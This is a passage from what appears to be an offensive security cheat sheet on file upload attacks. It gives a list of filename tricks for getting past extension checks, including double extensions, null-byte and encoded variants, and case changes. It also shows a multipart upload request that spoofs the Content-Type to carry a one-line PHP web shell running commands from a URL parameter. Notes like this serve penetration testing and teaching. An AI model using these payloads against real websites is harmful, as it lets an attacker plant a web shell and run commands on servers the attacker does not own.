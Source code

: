 We might be able to bypass file extension validation by modifying the filename.  
For example, if we cannot upload a pure **`.php`** file extension, tweak the filename a bit as below.

```txt
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.phar

exploit.jpg.php
exploit.jpeg.php
exploit.png.php
exploit.gif.php
exploit.pdf.php

exploit.php.
exploit.php.jpg
exploit.php.jpeg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg

exploit.PHP
exploit.pHp

exploit.php/
exploit.php//
exploit.php\
exploit.php#
exploit..php
```

  

## [Bypass Content-Type Validation](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#bypass-content-type-validation)

We might be able to bypass the content type validation by modifying that.  
For example, assume that we want to upload **`PHP`** file to execute **webshell** or **reverse shell**, but `PHP` files are rejected by the website.  
In this situation, we might be able to bypass the validation by modifying the **"Content-Type"** from **"application/x-php"** to other types such as **"image/jpeg"**, **"plain/text"** etc.  
Here is the example.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg <!-- Change this. Try other types such as image/gif, plain/text, etc. -->

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```
